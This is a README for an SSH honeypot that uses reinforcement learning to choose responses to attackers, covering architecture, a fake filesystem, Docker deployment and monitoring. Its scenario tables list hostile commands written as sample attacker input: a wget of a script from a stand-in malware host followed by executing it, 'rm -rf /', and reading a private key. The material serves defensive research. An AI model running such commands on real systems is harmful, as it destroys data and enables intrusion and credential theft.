

# Honeygotchi: Adaptive SSH Honeypot with Reinforcement Learning

**Honeygotchi** is a SSH honeypot that leverages reinforcement learning to dynamically adapt its responses to attacker behavior. Unlike traditional static honeypots, Honeygotchi learns optimal engagement strategies through real-time interaction analysis, significantly improving intelligence gathering while maintaining convincing deception.

## System Architecture

```
┌─────────────────────────────────────────────────────────────────┐
│                    Honeygotchi System                           │
├─────────────────────────────────────────────────────────────────┤
│  ┌─────────────┐    ┌──────────────┐    ┌─────────────────┐     │
│  │   Attacker  │───▶│ SSH Server   │───▶│ RL Agent        │     │
│  │   (Port     │    │ (AsyncSSH)   │    │ (ε-greedy)      │     │
│  │   2222)     │    │              │    │                 │     │
│  └─────────────┘    └──────────────┘    └─────────────────┘     │
│                             │                      │             │
│                             ▼                      ▼             │
│  ┌─────────────┐    ┌──────────────┐    ┌─────────────────┐     │
│  │ Monitoring  │◀───│ Fake File    │◀───│ Command         │     │
│  │ Stack       │    │ System       │    │ Processor       │     │
│  │             │    │              │    │                 │     │
│  └─────────────┘    └──────────────┘    └─────────────────┘     │
└─────────────────────────────────────────────────────────────────┘
```

## Reinforcement Learning Flow

```
    Attacker Input               RL Agent Decision                Response
         │                            │                            │
         ▼                            ▼                            ▼
┌─────────────────┐          ┌─────────────────┐         ┌─────────────────┐
│ Command: "ls"   │────────▶ │ State Analysis  │────────▶│ Action: ALLOW   │
│ IP: x.x.x.x     │          │ Pattern Check   │         │ Output: file    │
│ Session: 5 min  │          │ Reward Calc    │         │ listing         │
└─────────────────┘          └─────────────────┘         └─────────────────┘
                                      │                            │
                                      ▼                            │
                             ┌─────────────────┐                  │
                             │ Policy Update   │◀─────────────────┘
                             │ Q-Learning      │
                             └─────────────────┘
```

## Docker Services Architecture

```
┌─────────────────────────────────────────────────────────────────┐
│                     Docker Network                              │
├─────────────────────────────────────────────────────────────────┤
│ ┌─────────────┐  ┌─────────────┐  ┌─────────────┐  ┌──────────┐ │
│ │ Honeygotchi │  │ Prometheus  │  │   Grafana   │  │   Loki   │ │
│ │   :2222     │  │   :9091     │  │   :3000     │  │  :3100   │ │
│ │             │  │             │  │             │  │          │ │
│ └─────────────┘  └─────────────┘  └─────────────┘  └──────────┘ │
│        │                │                │                │     │
│        └────────────────┼────────────────┼────────────────┘     │
│                         │                │                      │
│                ┌─────────────┐  ┌─────────────┐                 │
│                │  Promtail   │  │ Persistent  │                 │
│                │   Logs      │  │  Volumes    │                 │
│                └─────────────┘  └─────────────┘                 │
└─────────────────────────────────────────────────────────────────┘
```

## Key Features

**Intelligent Response Selection**
```
Input Command → Pattern Analysis → RL Decision → Response
     │               │                  │           │
     ▼               ▼                  ▼           ▼
"wget malware"  → MALICIOUS        → FAKE      → "Download complete"
"ls -la"        → BENIGN           → ALLOW     → Real file listing
"rm -rf /"      → DESTRUCTIVE      → BLOCK     → Session terminated
```

**Adaptive Actions Available:**
- **ALLOW**: Execute with realistic output
- **DELAY**: Add strategic latency (1.5-3s)
- **FAKE**: Generate deceptive responses
- **INSULT**: Psychological manipulation
- **BLOCK**: Terminate with warning

## Fake File System Structure

```
/
├── bin/
│   ├── bash
│   ├── ls
│   └── cat
├── etc/
│   ├── passwd          # Fake user accounts
│   ├── shadow          # Fake password hashes
│   └── ssh/
│       └── sshd_config
├── home/
│   └── user/
│       ├── .bash_history    # Suspicious command history
│       ├── .ssh/
│       │   └── id_rsa       # Fake private key
│       ├── documents/
│       └── downloads/
├── tmp/
│   └── malware.sh          # Honeytrap file
└── var/
    └── log/
        ├── auth.log        # Fake authentication logs
        └── syslog
```
## Demo Interaction



## Quick Start

### Prerequisites
- Docker and Docker Compose
- Python 3.11+ (for development)

### Deployment Flow

```
1. Clone Repository     2. Start Services      3. Access Points
      │                      │                      │
      ▼                      ▼                      ▼
git clone repo ──────▶ docker-compose up ──────▶ SSH: :2222
                                │                Grafana: :3000
                                ▼                Prometheus: :9091
                        Services Running
```

```bash
# Clone the repository
git clone https://github.com/yourusername/honeygotchi.git
cd honeygotchi

# Start the complete monitoring stack
docker-compose up -d

# Verify services are running
docker-compose ps
```

## Testing Attack Scenarios

```
Attacker Actions              Honeygotchi Response          Intelligence Gathered
      │                            │                            │
      ▼                            ▼                            ▼
ssh user@honeypot         → Login Accepted            → Credentials logged
ls /home/user             → Real file listing         → Reconnaissance detected  
cat id_rsa                → Fake private key          → Credential theft attempt
wget malware.com/evil.sh  → Fake download success     → Malware URL captured
chmod +x evil.sh          → Permission granted        → Execution attempt logged
./evil.sh                 → Fake execution output     → Attack pattern analyzed
```

## Monitoring Dashboard Flow

```
Raw Events → Prometheus Metrics → Grafana Dashboards → Security Insights
     │              │                    │                    │
     ▼              ▼                    ▼                    ▼
SSH Login     → sessions_total      → Login Attempts    → Attack Sources
Command       → commands_total      → Command Types     → Tool Usage
Session End   → session_duration    → Engagement Time   → Success Metrics
RL Decision   → rl_actions_total    → Action Distribution → Learning Progress
```

## Configuration

```yaml
# honeypot.yml
honeypot:
  ssh_port: 2222
  metrics_port: 9090
  
reinforcement_learning:
  epsilon: 0.3              # Exploration rate
  learning_rate: 0.1        # Learning speed
  exploration_decay: 0.995  # Decay factor

filesystem:
  fake_users: ["user", "admin", "backup"]
  suspicious_files: true
  realistic_timestamps: true
```

## Development Setup

```
Development Workflow
      │
      ▼
┌─────────────┐    ┌─────────────┐    ┌─────────────┐
│ Virtual Env │───▶│ Dependencies│───▶│ Run Tests   │
│ Creation    │    │ Install     │    │             │
└─────────────┘    └─────────────┘    └─────────────┘
      │                   │                   │
      ▼                   ▼                   ▼
python -m venv env    pip install -r       pytest tests/
source env/bin/       requirements.txt
activate
```

## Research Applications

**Intelligence Collection Pipeline**
```
Attacker Behavior → Pattern Recognition → Threat Classification → Security Insights
       │                    │                      │                    │
       ▼                    ▼                      ▼                    ▼
- Commands used      - Tool signatures      - Attack categories   - Defensive strategies
- Timing patterns    - Skill assessment     - Threat actor TTPs   - Honeypot improvements
- Persistence methods - Automation detection - Campaign correlation - Research publications
```

## Security Considerations

```
Isolation Layers
┌─────────────────────────────────────────────────────────────┐
│ ┌─────────────┐ ┌─────────────┐ ┌─────────────────────────┐ │
│ │   Docker    │ │   Network   │ │    Fake Environment     │ │
│ │ Containers  │ │ Segmentation│ │   (No Real Execution)   │ │
│ └─────────────┘ └─────────────┘ └─────────────────────────┘ │
└─────────────────────────────────────────────────────────────┘
                              │
                              ▼
                    Host System Protected
```

## License

This project is released under the MIT License, encouraging academic and commercial adoption while maintaining open source principles.

---

**Honeygotchi represents a new version of honeypot implementation, combining artificial intelligence with cybersecurity research to create truly adaptive defense systems.**